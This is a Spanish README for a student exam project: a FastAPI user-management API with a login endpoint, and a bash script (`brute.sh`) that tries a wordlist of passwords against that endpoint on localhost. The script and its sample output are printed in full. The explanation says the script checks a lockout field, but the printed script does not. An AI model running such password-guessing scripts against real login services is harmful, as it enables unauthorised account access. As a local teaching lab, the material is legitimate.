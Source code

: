 # Practical Term Exam

Este repositorio contiene una API REST (FastAPI) para manejo básico de usuarios (CRUD) y autenticación. Incluye un script `brute.sh` pensado para pruebas locales (simula intentos de login).

---

## Contenido del repositorio

- `main.py` — implementación FastAPI con modelos en `sqlmodel` y almacenamiento en memoria (`users_db`).
- `brute.sh` — script bash que prueba múltiples contraseñas contra `http://127.0.0.1:8000/`.
- `requirements.txt` — dependencias: `fastapi`, `uvicorn`, `sqlmodel`.
- `.gitignore` — (recomendado) para evitar subir `venv/`, `__pycache__/`, etc.

---

## Estructura (actual)
```
practical-term-exam/
├── main.py
├── brute.sh
├── requirements.txt
└── (otros archivos opcionales)
```

## Requisitos y preparación

- **Python** 3.10+  
- **pip**
- **(Windows) Git Bash or WSL to run brute.sh**

Se recomienda crear un entorno virtual:

**Windows (PowerShell)**
``` bash
python -m venv venv
venv\Scripts\Activate.ps1
```
**Instalar dependencias**
``` bash 
pip install -r requirements.txt
```
**Cómo ejecutar la API**

Desde la raíz del proyecto, con el entorno virtual activado:
``` bash 
uvicorn main:app --reload --host 0.0.0.0 --port 8000
```
La API quedará accesible en: http://127.0.0.1:8000/

## ENDPOINTS DETECTADOS

- `GET /`  
  Root

- `POST /users`  
  Crear usuario — Body: `username`, `password`, `email?`, `is_active?`

- `GET /users`  
  Listar usuarios (devuelve datos "seguros" sin la contraseña)

- `GET /users/{user_id}`  
  Obtener usuario por id

- `PUT /users/{user_id}`  
  Actualizar usuario — Campos: `username`, `email`, `is_active`

- `DELETE /users/{user_id}`  
  Eliminar usuario

- `POST /login`  
  Login con `username` + `password`
  
  ## Ejemplo de login (body JSON)

```json
{ "username": "matias", "password": "matym123" }
````
## Respuesta satisfactoria actual
```json
{ "message": "login successful" }
```
## Respuesta por credenciales inválidas
```json
{ "message": "Invalid credentials" }
```
## Bruteforce / Script de prueba (`brute.sh`)

> **Advertencia:** Este script fue utilizado unicamente con fines educativos, hacer el mismo proceso con equipos de terceros seria considerado algo ilegal

### Versión final brute.sh

```bash
API="http://127.0.0.1:8000/login"
USER="matias"

WORDLIST=(matym123 hola123 adios546 arroz123 pollo123 loco456 hello123 maty123)

attempts=0
start=$(date +%s)

for pwd in "${WORDLIST[@]}"; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] Probando '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "ENCONTRADA: password='$pwd' en $attempts intentos, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done

end=$(date +%s)
echo "NO encontrada tras $attempts intentos en $((end-start))s"
exit 1
```
## Cómo funciona `brute.sh`

`brute.sh` es un script de prueba pensado para entornos locales. Su objetivo es automatizar intentos de login usando una lista de contraseñas (wordlist) para comprobar la lógica de autenticación y bloqueo de la API.

**Resumen del flujo:**
1. Define la URL del endpoint de login (`API`) y el usuario objetivo (`USER`).
2. Define un `WORDLIST` con posibles contraseñas.
3. Recorre cada contraseña:
   - Envía una petición `POST` con `curl` al endpoint `/login`.
   - Lee la respuesta (JSON) y comprueba si contiene la cadena/valor que indica éxito (`"login successful"`) o si hay un campo de bloqueo (`retry_after`).
   - Muestra en consola el intento actual y el resultado parcial.
4. Si encuentra la contraseña correcta, muestra el tiempo total y termina. Si no la encuentra, informa que no se encontró tras todos los intentos.

**Variables importantes dentro del script:**
- `API` — URL del endpoint (ej. `http://127.0.0.1:8000/login`)
- `USER` — nombre de usuario objetivo
- `WORDLIST` — arreglo con las contraseñas a probar
- `attempts` — contador de intentos
- `start` / `end` — tiempo de inicio/fin para medir duración

**Advertencia:** usar solo en entornos locales y con cuentas de prueba. Hacer fuerza bruta contra sistemas de terceros es ilegal.

---

## Uso (rápido)

Dar permisos y ejecutar:
```bash
chmod +x brute.sh
./brute.sh
```
### Ejemplo de salida en consola

#### 1) Contraseña encontrada
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"login successful"}
ENCONTRADA: password='adios546' en 3 intentos, 1s
#### 2) Contraseña no encontrada
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"Invalid credentials"}
[4] Probando 'arroz123' -> {"message":"Invalid credentials"}
[5] Probando 'pollo123' -> {"message":"Invalid credentials"}
[6] Probando 'loco456' -> {"message":"Invalid credentials"}
[7] Probando 'hello123' -> {"message":"Invalid credentials"}
[8] Probando 'maty123' -> {"message":"Invalid credentials"}
NO encontrada tras 8 intentos en 2s


